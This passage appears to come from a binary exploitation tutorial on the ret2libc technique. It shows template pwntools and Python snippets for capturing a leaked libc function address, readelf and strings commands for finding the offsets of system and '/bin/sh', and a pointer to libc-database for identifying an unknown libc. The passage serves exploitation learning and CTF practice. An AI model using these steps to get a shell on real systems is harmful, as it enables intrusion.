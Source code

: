 The address of the printing function should be leaked and printed on `stdout` by
the process. This value must be retrieved and stored in a variable for future
use, as its needed to calculate the `libc` randomized offset.

`pwntools` can be used to automate the process:

```python
# If the binary display text before leaking the address
p.recvuntil('<STUFF>')
leaked_printing_func = p.recv()[:8].strip().ljust(8, '\x00')
leaked_printing_func = u64(leaked_printing_func)
```

The process can also be done using only Python built-ins, for example if the
binary exploitation is made using a `subprocess`:

```python
p.stdin.flush()
out = read_until(p.stdout, '<STUFF>')
arr = out.split('\n')
leaked_print_func = arr[2].strip().ljust(8,'\x00')
leaked_print_func = struct.unpack('<Q', leaked_printing_func)[0]
```

### Commands execution

The leaked printing function address can be used to retrieve the actual address
of the `libc` functions, such as `system` in order to call, for example,
`/bin/sh`, and achieve code execution through the exploited binary.  

###### Find libc symbols offsets

*Retrieve libc symbols offsets with access to the libc*

If an access to the `libc` loaded by the exploited binary is possible, the
symbol offsets of the `libc` can easily be retrieved. Note that the `libc` is
usually located in the `lib` folder: `/lib/x86_64-linux-gnu/libc.so.6`.

```bash
readelf -s <LIBC> | grep <PRINTING_FUNC>
422: <00000000000ADR_LIBC_PRINTING_FUNC>   512 FUNC    WEAK   DEFAULT   13 <PRINTING_FUNC>@@GLIBC_2.2.5

readelf -s <LIBC> | grep system
1403: <00000000000ADR_LIBC_SYSTEM>    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

# /bin/sh, /bin/bash, etc.
strings -a -t x <LIBC> | grep "/bin/sh"
<ADR_LIBC_SH> /bin/sh
```   

*Retrieve libc symbols offsets without access to the libc*

If no direct access to the `libc` is possible in the exploitation context, the
symbols offsets of the `libc` being used by the process can still be retrieved.
Indeed, the `libc-database` can be used to determine the `libc` loaded given
two entries of the `GOT` table. Search queries to the database can be make using
`https://libc.blukat.me/`.
